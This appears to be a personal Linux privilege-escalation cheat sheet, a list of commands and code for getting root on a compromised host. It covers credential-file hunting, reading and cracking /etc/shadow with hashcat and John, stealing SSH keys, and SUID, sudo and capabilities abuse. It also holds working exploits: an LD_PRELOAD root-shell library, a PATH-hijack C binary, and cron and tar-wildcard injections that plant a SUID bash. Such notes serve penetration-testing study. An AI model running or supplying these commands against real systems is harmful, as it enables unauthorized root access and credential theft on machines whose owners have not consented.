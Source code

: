 User enum

User folders
Whoami
Id
/etc/passwd/
Grep usernames - Grep --color=auto -rnw '/' -ie "password" --color=always 2> /dev/null

Password and sensitive file hunting
Grep --color=auto -rnw '/' -ie "password" --color=always 2> /dev/null
Locate password | more

History

Ls -la then cat .bash_history

Write contents of /etc/passwd and /etc/shadow to 2 diff files - then use tool called unshadow
unshadow passwordfile.txt shadowfile.txt > unshadowed.txt
(only works if access to shadow passwd) - ls -la /etc/shadow
Then crack with hashcat -hashcat -m 1800 unshadowex.txt wordlist.txt -O
Crack with John - john --wordlist=/home/kali/rockyou.txt hashname.txt

See if /etc/shadow is writeable - ls -la /etc/shadow
mkpasswd -m sha-512 yourpasswordhere

Finding SSH Keys
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null

Should you find a rsa key - can get root shell with 2 commands
Copy rsa key to file on attacking machine
Run - chmod 400 rsakey
Run ssh -i rsakey username@ip

SUDO Priv Esc
see what a user has sudo rights too - sudo -l
should it ask for a sudo password - user has no sudo rights

Should stuff come up, take the names and search on gtfobins for sudo execution on the software

SUID
Type find / -type f -perm -04000 -ls 2>/dev/null to see what software has SUID set
use GTFO bins to look at software and see if any SUID exploits exist

Sudo LD_Preload
Sudo -l look for LD_PRELOAD at the top (pre loads a library)
Create a file 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Save file as x.c
Type 
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
Type 
sudo LD_PRELOAD=/tmp/x.so service you can run as sudo with sudo -l
Type id


Shared Object Injection
find / -type f -perm -04000 -ls 2>/dev/null
Look for something we can inject (look at each path and see what each thing does, are they scripts?) Can use a tool called strace  ---- strace /location/to/path ---- have a look for errors such as missing files or directories
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
Create the directory / file and add malicious code


Capabilities
use command getcap to list capabilities - when run as unpriv user use getcap -r / 2>/dev/null
serach on GTFO bins for any capabilities with the software names discovered

Cron Jobs
Any user can read the file keeping system-wide cron jobs under /etc/crontab - cat /etc/crontab
Edit any cron jobs that have permission and replace with a reverse shell using nano filename then edit. Ensure it runs as root.



Means runs every minute
Overwrite file with output such as 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /file/path/ofcron.sh
chmod +x ofcron.sh
This will overwrite to tmp/bash and if you call /tmp/bash -p after the job has run it'll work

Also check systemd timers ---- systemctl list-timers --all

Cron Jobs with wildcard
Tar exploitation - when identifying cron jobs (cat /etc/crontab), there may be a job running using tar and a wildcard. You may have read only rights here.

E.g. A script contains this
cd important-directory
tar cf /var/backups/backup.tar *

First CD to the directory in the script
Add a malicious file --- echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > output.sh
chmod +x output.sh
touch  /directory/of/script--checkpoint=1
touch  /directory/of/script--checkpoint-action=exec=sh\ output.sh
/tmp/bash -p (have to wait for script to be run on timer)

Cron Jobs with overwrite
Check file perms of any cron jobs u find (ls -la filename.sh)
If write permissions can overwrite file
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> filename.sh

Path
find / -perm -u=s -exec ls -l {} \; 2>/dev/null
Look for non linux binaries

Or - find / -type f -perm -04000 -ls 2>/dev/null and look at binaries, run strings on the path -- strings /location/path and see if anything's interesting are there any system commands being called? If so see if you can write a new PATH - export PATH=      if yes;

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c (making new c file malicious service and writing it to the tmp folder)
2. In command prompt type: gcc /tmp/service.c -o /tmp/service   (outputting the file from C)
3. In command prompt type: export PATH=/tmp:$PATH  (creating new path variable)
4. In command prompt type: /usr/local/bin/suid-env   (this changes to whatever binary you identified)
5. In command prompt type: id

Another way
Repeat the find step ( - find / -type f -perm -04000 -ls 2>/dev/nul) and look at binary strings, if there is a system command being called with a direct service you could try create a new function as that service

E.g. If a binary has /usr/sbin/service apache 2 this shows it is reaching out to /usr/sbin to call the system command service. 
	1. Create a mew function with the path -- function /usr/sbin/service() {cp /bin/bash /tmp && chmpd +s /tmp/bash && /tmp/bash -p; }
	2. Export - ---- export -f /usr/sbin/service (ovbs change to the system command u find)
	3. Re -run the binary 


GPP Attacks
Sometimes stored in sysvol, cpassword is encrypted, can be de-crypted. Check with Metasploit - smb_enum_gpp.
Download if accessible via SMB by authing to smb - using mget command - mget * to download all files
To decrypt cpassword - use tool call gpp-decrypt



![image](https://user-images.githubusercontent.com/35967437/200787298-1e975059-fbe5-4d8a-8313-674bb4e4e67b.png)
